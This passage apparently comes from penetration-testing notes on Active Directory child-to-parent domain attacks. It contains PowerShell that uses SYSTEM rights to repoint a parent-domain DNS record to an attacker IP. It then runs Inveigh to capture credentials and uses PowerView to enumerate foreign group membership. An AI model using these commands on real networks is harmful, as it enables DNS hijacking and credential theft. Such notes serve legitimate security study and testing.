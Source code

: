 With SYSTEM privileges on a child DC we can change IPs of critical servers. For example by changing the records for `dev01.zencorp.ad` and pointing it to my IP. Then we can use Responder or Relay.

```powershell
# Spawn PS as SYSTEM
.\PsExec -s -i powershell

# Enumerate DNS records in parent domain
Get-DnsServerResourceRecord -ComputerName DC01.zencorp.ad -ZoneName zencorp.ad -Name "@"

# Enumerate DEV01
Resolve-DnsName -Name DEV01.zencorp.ad -Server DC01.zencorp.AD

# Modify DNS Records for DEV01
$Old = Get-DnsServerResourceRecord -ComputerName DC01.zencorp.AD -ZoneName zencorp.ad -Name DEV01
$New = $Old.Clone()
$TTL = [System.TimeSpan]::FromSeconds(1)
$New.TimeToLive = $TTL
$New.RecordData.IPv4Address = [System.Net.IPAddress]::parse('172.16.210.3')
Set-DnsServerResourceRecord -NewInputObject $New -OldInputObject $Old -ComputerName DC01.zencorp.AD -ZoneName zencorp.ad
Get-DnsServerResourceRecord -ComputerName DC01.zencorp.ad -ZoneName zencorp.ad -Name "@"

# Run Inveigh
Import-Module .\Inveigh.ps1
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y -SMB Y
```

### <mark style="color:yellow;">Foreign Groups & ACL Principals</mark>

Within Intra-Forest its possible to add users or groups from a child domain into groups in parent domain. AD uses scopes to define how board a group is within the AD.

<table><thead><tr><th width="213">Scope</th><th>Possible Members</th></tr></thead><tbody><tr><td>Universal</td><td><strong>User accounts</strong> from <strong>any domain</strong> in the forest, <strong>Global groups</strong> from <strong>any domain</strong> in the forest, o<strong>ther Universal groups</strong> from <strong>any domain</strong> in the forest.</td></tr><tr><td>Global</td><td><strong>User accounts</strong> from the <strong>same domain, Other Global groups</strong> from the <strong>same domain</strong>.</td></tr><tr><td>Domain Local</td><td>Accounts and Global groups from any domain or trusted domain, plus Universal groups from any domain in the same forest, plus Domain Local groups from the same domain. Additionally, Accounts, Global groups, and Universal groups can be included from other forests and external domains.</td></tr></tbody></table>

#### Enumerate Foreign Group Membership

```powershell
# Enumerate
Import-Module .\PowerView.ps1
Get-DomainForeignUser

# Output above shows membership zencorp_admins group
Get-DomainGroup -Identity 'zencorp_admins' -domain zencorp.ad

# Show memberships
Get-DomainGroup -Identity 'zencorp_admins' -domain zencorp.ad | select memberof
```
